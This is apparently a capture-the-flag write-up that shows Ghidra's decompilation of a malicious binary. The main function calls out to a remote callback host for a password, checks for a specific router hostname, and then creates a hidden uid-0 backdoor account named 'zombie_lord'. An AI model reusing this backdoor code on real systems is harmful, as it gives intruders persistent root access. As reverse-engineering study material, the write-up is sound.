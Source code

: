 Another binary, let's examine it with Ghidra:

```C
int main() {
    // [...REDACTED...]
    local_20._0_1_ = 'z';
    local_20._1_1_ = 'o';
    local_20._2_1_ = 'm';
    local_20._3_1_ = 'b';
    local_1c._0_1_ = 'i';
    local_1c._1_1_ = 'e';
    local_1c._2_1_ = '_';
    local_1c._3_1_ = 'l';
    local_18._0_1_ = 'o';
    local_18._1_1_ = 'r';
    local_18._2_1_ = 'd';
    local_18._3_1_ = '\0';
    memcpy(acStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
    memcpy(acStack_3c,&DAT_00400d5c,0x1b);
    sVar1 = strlen(acStack_3c);
    pvVar2 = malloc(sVar1 << 2);
    init_crypto_lib(acStack_68,acStack_3c,(int)pvVar2);

    iVar3 = curl_easy_init();
    if (iVar3 == 0) { uVar7 = 0xfffffffe; } 
    else {
        curl_easy_setopt(iVar3,0x2712,"http://configs.router.htb:8817/callback");
        curl_easy_setopt(iVar3,0x271f,pvVar2);
        curl_easy_perform(iVar3);
        curl_easy_cleanup(iVar3);

        pFVar4 = fopen("/proc/sys/kernel/hostname","r");
        local_168 = 0;
        memset(auStack_164,0,0xfc);
        sVar1 = fread(&local_168,0x100,1,pFVar4);
        fclose(pFVar4);
        (&uStack_169)[sVar1] = 0;
        iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
        if (iVar3 == 0) {
        _Var5 = getuid();
        if ((_Var5 == 0) || (_Var5 = geteuid(), _Var5 == 0)) {
            ppVar6 = getpwnam((char *)&local_20);
            if (ppVar6 == (passwd *)0x0) {
            system(
                    "opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
                    );
            }
            pFVar4 = popen("passwd zombie_lord","w");
            fprintf(pFVar4,"%s\n%s\n",pvVar2,pvVar2);
            pclose(pFVar4);
            uVar7 = 0;
        }
        else { uVar7 = 0xffffffff; }
        } else { uVar7 = 0xffffffff; }
    }
    return uVar7;
}
```
